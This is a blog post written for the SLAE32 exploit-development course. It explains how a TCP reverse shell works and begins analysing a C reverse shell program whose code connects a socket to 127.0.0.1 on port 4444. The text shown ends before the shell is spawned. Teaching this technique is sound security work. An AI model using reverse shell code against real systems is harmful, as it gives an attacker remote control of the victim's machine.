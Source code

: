 ```yaml
---
title: "SLAE32 0x02: Shell_Reverse_TCP Shellcode"
date: 2019-10-25
category: [SLAE32]
tags: [assembly, c, python, exploit development, reverse shell, linux, SLAE32]
header:
    teaser: "/assets/images/slae/rev_shell.jpg"
---
```

In contrast to a bind shell (which is explained in the previous post), a reverse shell is a type of shell in which the system on which the code is run connects a TCP socket to a remote IP address and port that have been designated to listen for incoming connections prior to the execution of the reverse shell. In other words, when a reverse shell is used, the system on which the reverse shell is executed acts as the system that initiates the connection while the remote system acts as the listener. Upon succesful connection to the remote system, a shell will be spawned on the system on which the code is run.

As previously demonstrated, it is wise to begin by analyzing the code of a TCP reverse shell written using a higher level language. The C program shown in the upcoming section will be used for this purpose. It is worth nothing here that there are many similarities in code between the two TCP shell types, so references to the previous post will be common, and some previous explanations may be reused. The focus will lie on the major differences in code between the TCP bind shell and the TCP reverse shell.

Once analysis of the C program is complete, the program will be re-written using assembly. This processes is documented and explained in detail following the C code analysis.

The third section will demonstrate a program written in Python that allows a user to configure an IP address and port number to be used in the Shell_Reverse_TCP shellcode.

### Objectives
Create a Shell_Reverse_TCP shellcode that;
1. Connects to an easily configurable IP address and port number
2. Executes a shell on a successful connection

### Analysis of Shell_Reverse_TCP.c
The following code has been commented in a way that aims to break the program down into distinct sections to be referenced during analysis. If a section of code has already been explained previously, then either a reference to a previous explanation will be made, or the previous explanation will be reused within this post. A brief explanation will be provided for new concepts and/or functions.

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netinet/in.h>

int main ()
{
    /* Create a TCP Socket */
    int sockfd = socket(AF_INET, SOCK_STREAM, 0); 

    /* Create an IP Address Pointer */
    const char* ip = "127.0.0.1";
    
    /* Create an IP Socket Address Structure */
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    inet_aton(ip, &addr.sin_addr);

    /* Connect TCP Socket to IP Socket Address Structure */
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
```